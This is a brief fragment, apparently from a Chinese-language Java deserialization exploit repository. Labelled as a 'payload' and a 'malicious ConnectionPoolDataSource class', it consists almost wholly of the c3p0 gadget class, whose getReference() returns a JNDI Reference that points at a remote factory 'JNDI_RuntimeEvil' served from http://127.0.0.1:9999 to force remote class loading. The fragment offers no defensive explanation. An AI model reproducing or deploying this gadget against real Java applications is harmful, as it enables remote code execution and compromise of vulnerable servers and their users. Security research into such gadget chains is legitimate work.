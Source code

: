 payload：

恶意connectionPoolDataSource类

```java
package org.exploit.third.c3p0;

import javax.naming.*;
import javax.naming.spi.ObjectFactory;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.PrintWriter;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.Hashtable;
import java.util.logging.Logger;

public class c3p0_Reference implements ConnectionPoolDataSource, Referenceable{
    @Override
    public Reference getReference() throws NamingException {
        Reference ref = new Reference("JNDI_RuntimeEvil", "JNDI_RuntimeEvil", "http://127.0.0.1:9999");
        return ref;
    }

    @Override
    public PooledConnection getPooledConnection() throws SQLException {
        return null;
    }

    @Override
    public PooledConnection getPooledConnection(String user, String password) throws SQLException {
        return null;
    }

    @Override
    public PrintWriter getLogWriter() throws SQLException {
        return null;
    }

    @Override
    public void setLogWriter(PrintWriter out) throws SQLException {

    }

    @Override
    public void setLoginTimeout(int seconds) throws SQLException {

    }

    @Override
    public int getLoginTimeout() throws SQLException {
        return 0;
    }

    @Override
    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }

}


```
